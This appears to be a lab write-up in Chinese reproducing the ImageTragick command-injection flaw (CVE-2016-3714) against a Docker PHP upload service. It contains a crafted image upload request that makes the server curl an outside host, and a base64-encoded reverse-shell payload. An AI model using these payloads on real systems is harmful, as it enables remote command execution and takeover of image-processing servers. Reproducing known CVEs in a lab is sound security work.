


# Imagetragick 命令执行漏洞（CVE-2016–3714）

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

参考链接：

- https://imagetragick.com
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html
- https://github.com/ImageTragick/PoCs

## 漏洞环境

执行如下命令启动一个包含了Imagemagick 6.9.2-10的PHP服务器：

```
docker-compose up -d
```

## 漏洞复现

访问`http://your-ip:8080/`即可查看到一个上传组件。

发送如下数据包：

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：



反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```


